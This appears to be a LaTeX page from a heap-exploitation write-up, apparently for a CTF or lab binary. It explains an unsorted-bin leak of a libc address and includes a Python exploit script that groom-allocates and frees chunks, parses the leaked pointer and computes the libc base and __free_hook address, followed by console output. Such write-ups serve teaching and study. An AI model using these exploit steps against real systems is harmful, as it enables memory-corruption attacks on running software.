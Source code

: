 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
The unsorted bin is a double linked list that follows a \textbf{FIFO} policy, hence, in the \texttt{bk} field of \texttt{P\_8} we can find a pointer to the \texttt{main\_arena}, located within the \texttt{.data} section of libc. This means that, reallocating these articles and then printing the content of \texttt{P\_8} we can leak a libc address, from line \ref{line:p-reallocate-small-chunks} on. Finally, as done for the leak of the heap, we parse the output and we compute useful addresses, code \ref{lst:leak-libc-addresses}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Leaking libc addresses with python script.},captionpos=b,label={lst:leak-libc-addresses}]
    # Leaking libc with unsorted bin attack
    print("[2]-Leaking libc addresses...")
    for i in range(10):~\label{line:p-allocate-small-chunks}~
        new_article("abcdef%d" % i, 0x150, "%d" % i)
        time.sleep(0.05)
    
    for i in range(1, 10):~\label{line:p-deallocate-small-chunks}~
        delete_article(i)
        time.sleep(0.05)
    
    for i in range(10):~\label{line:p-reallocate-small-chunks}~
        new_article("qwert%d" % (i), 0x150, "")
        time.sleep(0.05)
    
    print_article(8)
    
    libc_leak = u64(p.recv(35)[28:]+b"\x00")
    # Setting the base address of libc with the leaked one
    libc.address = libc_leak - libc_offset
    print("\t\tLibc base address: ", hex(libc.address))
    print("\t\tFree_hook address:", hex(libc.symbols['__free_hook']))
\end{lstlisting}
\end{minipage}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Leaking libc addresses.}, 
captionpos=b,label={lst:leak-libc-addresses}]
xman@ubuntu:/$ ./x.py
...
[2]-Leaking libc addresses...
        Libc base address:  0x7ffff79e2000
        Free_hook address: 0x7ffff7dcf8e8
\end{lstlisting}
\end{minipage}
\end{document}
